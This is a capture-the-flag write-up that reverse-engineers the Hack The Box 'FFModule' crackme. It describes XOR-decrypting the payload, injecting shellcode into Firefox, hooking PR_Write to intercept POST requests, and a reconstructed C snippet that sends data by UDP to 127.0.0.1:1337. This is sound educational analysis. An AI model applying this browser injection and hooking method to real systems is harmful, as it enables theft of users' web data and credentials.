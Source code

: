 
# "FFModule" by Hack The Box

It's always fun to solve a challenge without even running a binary file. Sometimes this is necessary because either you don't have the required hardware, OS, or library, or because the challenge has bugs and doesn't work. This crackme is an example of the latter: with my current configuration of Windows 11 + Firefox 124.0.1 it just crashed (of course, if you disable Windows Defender first, otherwise it will be killed beforehand). But in this case, it is enough to use only a disassembler.

This crackme is a classic example of how to inject malicious code into a process, and in particular, an example of how Firefox can be used as a target to steal any data. Again, the problem is that this is a “classic” and an “example”, so it will not work if any mediocre antivirus is installed.

But let’s start from the very beginning: firstly, the injection code itself is “hidden”, so, at the first stage, crackme will “decrypt” the required code and run it. To see this, let's simply execute the following IDC script in IDA:

```c
auto  i,  x;
for  (i = get_screen_ea(); i < get_screen_ea() + 0x5A4; i = i + 1)  {
    x  =  byte(i);
    patch_byte(i, x ^ 0x72);
}
```

The injection code didn't look too fancy: it iterates through the list of currently running processes and, if its EXE file name is `firefox.exe`, it allocates executable memory in that process, copies the code of the next step code into it, and starts a new thread inside that process which executes this code.

The goal of the second stage is to inject the trampoline into the [Firefox's NSPR](https://firefox-source-docs.mozilla.org/nspr/reference/pr_write.html) `PR_Write` function, which is used to write data to a file descriptor. To do this correctly, the following steps are needed:

1. Firstly, the shellcode (or how should I call it now?) finds the address of the `GetProcAddress` function using the “PEB technique” described everywhere and by everyone, so I won't describe it here again.
2. It then finds the addresses of the `VirtualAlloc` and `VirtualProtect` functions and allocates executable memory to store the part of the original `PR_Write` function that it will modify later.
3. The next step is to find one of the loaded libraries that Firefox uses that contains the `PR_Write` function: the shellcode checks the file `nss3.dll` and two others that I don't know about because it uses the CRC32C value of the filename instead of the raw string. I'm guessing the second one should be `nspr4.dll`, but the hash is different, so that's still a question for me.
4. It gets the address of the `PR_Write` function and copies part of the function into the memory allocated in the second step. What's interesting is that the shellcode copies the required number of bytes until it finds the following byte sequence: `0x003300730073006E`, which (I assume) is the UTF16 string "nss3". Honestly, I don't know why it wouldn't use the exact size here, but it is what it is.
5. The last step is to set the memory protection bits and install the following trampoline:

```assembly
push	r13
push	r12
movabs	r12, PR_write_hook
movabs	r13, unmodified_PR_Write
jmp	r12
int3
```

The third stage is the `PR_write_hook` itself, which fires every time the original function is called. First of all, it checks that the size of the data being sent is at least 5 bytes, and the first four bytes in the sending buffer are `POST`. If so, then the following magic happens:

1. It finds the address of the `GetProcAddress` function using the same code that was used in the second stage.
2. Then, again using the same technique, the shellcode finds the necessary libraries and addresses of the following functions: `WSAStartup`, `socket`, `sendto`, `closesocket` and `WSACleanup`.
3. After the initial preparation (roughly speaking, because this preparation and the logic itself are mixed), the following code is executed:

```c
unsigned char sockaddr[] = {0x02, 0x00, 0x05, 0x39, 0x7f, 0x00, 0x00, 0x01, 0xa0, 0x20};
const char* flag = decrypt_flag(); 
 
WSAStartup(0x202, &wsaData);
SOCKET s = socket(AF_INET, SOCK_DGRAM, IPPROTO_UDP);
sendto(s, flag, 0x20, 0, (SOCKADDR *) sockaddr, sizeof (sockaddr));
closesocket(s);
WSACleanup();
```

To avoid the hassle of deciphering the "host" and "network" byte order, I used the following code to see the destination:

```c
struct sockaddr_in *sin = (struct sockaddr_in *) buffer;
char ip[INET_ADDRSTRLEN];
uint16_t port;

inet_ntop (AF_INET, &sin->sin_addr, ip, sizeof (ip));
port = htons (sin->sin_port);

printf ("%s:%d\n", ip, port);
```

this gave me `127.0.0.1:1337` as a result. So, last question: what is this flag? I would probably cheat at this point and use Wireshark to see it, but as I said at the beginning, in my case, the crackme crashed my Firefox, so I'll have to decrypt it manually. Luckily there was no rocket science, and the following IDC script will do the trick:

```c
auto i, x;

for (i = get_screen_ea(); i < get_screen_ea() + 0x20; i = i + 1) {
	x = byte(i);
	x = rotate_byte(x - 0x13, 3);
	patch_byte(i, x ^ 0x42);
}
```

Sometimes a good disassembler is the only tool you need.

The challenge can be found [here](https://app.hackthebox.com/challenges/FFModule).
